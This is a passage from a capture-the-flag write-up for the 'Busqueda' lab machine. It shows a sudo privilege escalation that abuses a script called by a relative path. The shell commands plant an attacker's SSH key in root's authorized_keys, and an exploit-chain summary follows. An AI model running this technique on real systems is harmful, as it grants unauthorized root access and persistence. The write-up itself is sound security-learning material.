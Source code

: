 ![image-20240305033337117](./Busqueda.assets/image-20240305033337117.png)

`./full-checkup.sh` uses relative path, which means customized script under the current directory can be executed as root.

**Exploit**:

```console
svc@busqueda:~/qwe$ echo -e '#!/bin/bash\nmkdir -p /root/.ssh/;echo "ssh-ed25519 AAAAC...odd1DnmCN qwe@kali">/root/.ssh/authorized_keys' > full-checkup.sh
svc@busqueda:~/qwe$ chmod +x full-checkup.sh
svc@busqueda:~/qwe$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
```

## Exploit Chain

port scan -> web powered by Searchor 2.4.0 with exploit method -> svc user -> enum Gitea with port 3000 -> sudo script: docker inspect two containers -> credential to login Gitea as administrator -> check sudo script -> full-checkup function with script of relative path -> customized script with exploited code -> root

